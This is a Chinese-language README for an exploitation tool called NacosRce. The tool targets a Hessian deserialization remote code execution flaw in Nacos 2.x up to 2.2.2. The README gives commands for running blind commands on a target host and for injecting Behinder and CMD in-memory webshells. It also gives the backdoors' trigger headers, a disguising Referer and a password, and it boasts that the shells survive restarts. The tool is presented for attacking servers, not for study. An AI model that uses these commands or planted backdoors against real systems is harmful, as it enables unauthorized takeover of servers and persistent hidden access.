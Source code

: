 <a name="QnUES"></a>
## Nacos Hessian 反序列化漏洞利用工具 v0.4

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />**食用方式 **

1. 执行无回显命令	<br />java -jar NacosRce.jar ip:port "command"
2. 同时注入冰蝎&&CMD内存马(推荐)<br />java -jar NacosRce.jar ip:port memshell
3. 如果nacos是win的: java -jar NacosRce.jar ip:port memshell windows

1. 冰蝎内存马使用方法：<br />1、需要设置请求头x-client-data:rebeyond<br />2、设置Referer:https://www.google.com/<br />3、路径随意<br />4、密码rebeyond
2. CMD内存马使用方法：<br />1、需要设置请求头x-client-data:cmd<br />2、设置Referer:https://www.google.com/<br />3、请求头cmd:要执行的命令

v0.4版本实现了：<br />1、不出网漏洞利用<br />2、可多次发起漏洞利用<br />3、注入冰蝎/CMD内存马<br />4、内存马对多版本进行了兼容<br />5、修复windows的bug<br />tips:<br />1、请用jdk1.8<br />2、适用于 Nacos 2.x <= 2.2.2<br />3、非集群的也能打哦<br />4、此内存马重启nacos依然存活

参考文章<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
